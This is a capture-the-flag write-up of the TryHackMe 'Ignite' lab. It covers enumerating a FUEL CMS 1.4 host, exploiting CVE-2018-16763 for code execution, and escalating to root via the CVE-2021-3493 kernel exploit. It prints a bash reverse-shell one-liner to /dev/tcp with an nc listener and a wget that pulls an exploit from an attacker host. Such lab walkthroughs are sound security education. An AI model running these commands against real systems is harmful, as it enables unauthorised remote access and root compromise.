# Ignite — TryHackMe Writeup

**Difficulty:** Easy                                                                                    
**Operating System:** Linux                                                                           
**Category:** Web Exploitation + Privilege Escalation  

---

## Reconnaissance

### Setup /etc/hosts

Configure local hostname resolution:




### Port Enumeration

```bash
nmap ignite.lab -sC -sV --min-rate 500 -o ports.txt
```





**Open Ports:**

- **80/tcp** — HTTP (Apache 2.4.18)

**HTTP Service Details:**

- robots.txt: 1 disallowed entry (`_/fuel/`)
- Application: FUEL CMS

**Finding:** Single web service running proprietary CMS. Limited attack surface simplifies enumeration.

---

## Web Application Analysis

### Homepage Access





**CMS Identified:** FUEL CMS Version 1.4  

**Note:** CMS version identification is critical reconnaissance. Version 1.4 is known to contain a critical remote code execution vulnerability (CVE-2018-16763).

**Notable Information:**

- Getting Started section visible
- References to `.htaccess` configuration
- Mentions of FUEL CMS installation folder structure
- Valid credentials




admin:REDACTED

Admin panel: http://ignite.lab/fuel





The application dashboard revealed minimal additional exploitation vectors. However, CVE-2018-16763 provides a viable unauthenticated remote code execution path for FUEL CMS 1.4.


---

## Vulnerability Research

### CVE Identification





**CVSS: 7.8 (High)

**Vulnerability Description:** FUEL CMS 1.4.1 allows PHP code evaluation through the `pages/select/` filter parameter or `preview/data` parameter without authentication. This permits arbitrary PHP code execution in the context of the web server user.

**Why This Occurs:** The application improperly handles user-supplied input in these parameters, treating them as PHP expressions without adequate sanitization.

### Exploit Location





Multiple exploit variants available:

- Python exploit (47138.py)
- Ruby exploit (49487.rb)
- Python exploit (50477.py)

**Selected:** Python variant (50477) for interactive shell capability.





---

## Exploitation

### Exploit Environment Setup

Before executing the exploit, establish an isolated Python virtual environment to manage dependencies cleanly:

bash

```bash
python3 -m venv .venv
source .venv/bin/activate
```







**Virtual Environment Rationale:** Using a virtual environment prevents dependency conflicts with system-wide Python packages. Libraries installed within the isolated environment are contained and removed entirely when the environment is deleted, maintaining a clean system state.

Install required exploit dependencies:

bash

```bash
pip install requests colorama
```

These libraries provide HTTP request functionality and colored terminal output for the interactive exploit shell.

### Exploit Execution




**Usage:**

```bash
python3 50477.py -u http://ignite.lab/
```

### Remote Code Execution





**Command Executed:** `whoami`  
**Output:** `www-data`

**Confirmation:** PHP code is executing in the context of the `www-data` user (Apache web server process user).

### Reverse Shell

**Payload:**

```bash
bash -c "bash -i >& /dev/tcp/IP/9999 0>&1"
```

```bash
nc -lnvp 9999
```





---

## User Flag

### Home Directory Enumeration





```bash
ls -la /home
cd /home/www-data
ls -la
```

```bash
cat flag.txt
```


---

## Privilege Escalation

### Enumeration Strategy

Manual enumeration preferred over automated scripts for learning purposes.

Automated enumeration script (linpeas) was utilized for comprehensive system analysis due to limited successful vectors from manual enumeration. While manual reconnaissance is preferred for learning, automated tools provide valuable baseline system information when manual approaches yield minimal results. 

**Note:** This walkthrough used linpeas for privilege escalation discovery. Manual enumeration techniques (sudo -l, find SUID, /etc/cron*, processes) should always be attempted first as a foundational practice.

### Exploit Discovery





**Selected:** CVE-2021-3493

**Researching for POC**



REFERER: https://safe.security/wp-content/uploads/ubuntu-overlayfs-privesc-vulnerability.pdf

### Privilege Escalation via Local Exploit

**Impact:** Kernel-level privilege escalation.  
**Root Cause:** Unpatched kernel vulnerability exploitable by local user.  
**Mitigation:** Keep operating system patched; apply security updates regularly; use AppArmor/SELinux for process confinement.

"The exploit is done by executing a C file on the machine. If the system is vulnerable, you can escalate very easily
from any user to root as long as you can run a binary.
The exploit used requires a GCC compiler installed on the system if there is not a C compiler installed on the
machine, you can compile the binary statically elsewhere and copy just the binary over." - https://safe.security/wp-content/uploads/ubuntu-overlayfs-privesc-vulnerability.pdf

CVSSv3 score:

- Base – 7.8
- Impact - 5.9
- Exploitability - 1.8
- Severity - HIGH

Research for POC

On attacker machine was ran:

```
git clone https://github.com/briskets/CVE-2021-3493.git
```

Then, up python http server for get the exploit on target machine





On target machine:

```
wget ATTACKER-IP:PORT/exploit.c
```





**Exploit Characteristics:**

- Written in C (requires compilation)
- Targets specific kernel vulnerability

**Important Security Note:** Before executing any exploit, verify file integrity and that it is a legitimate proof-of-concept for the target system. Always understand what an exploit does before running it.

### Compilation

```
gcc exploit.c
```



A executable `a.out` was created.

---

### Exploitation and Root Access

```
./a.out
```



Whoami: root

**Privilege Escalation Successful:** Exploit provides root shell access.

### Root Flag




```bash
cat /root/root.txt
```

Pwned!

---

> Made by NonamesecX | For educational purposes only

